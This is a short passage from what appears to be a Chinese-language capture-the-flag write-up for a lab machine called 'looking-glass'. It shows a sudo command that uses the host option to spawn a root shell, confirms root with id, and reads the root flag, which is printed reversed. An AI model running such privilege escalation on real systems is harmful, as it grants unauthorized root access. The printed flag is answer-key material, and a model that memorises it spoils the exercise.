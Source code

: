 ````
>/bin/bash 可以执行的命令


# 提权到root。
>-h参数有帮助菜单（display gelp message and exit），也有在主机上运行命令的意思（run command on host）
```
alice@looking-glass:/$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/#  id
uid=0(root) gid=0(root) groups=0(root)
root@looking-glass:/#  cat /root/root.txt
}f3dae6dec817ad10b750d79f6b7332cb{mht
```

root flag也需要reverse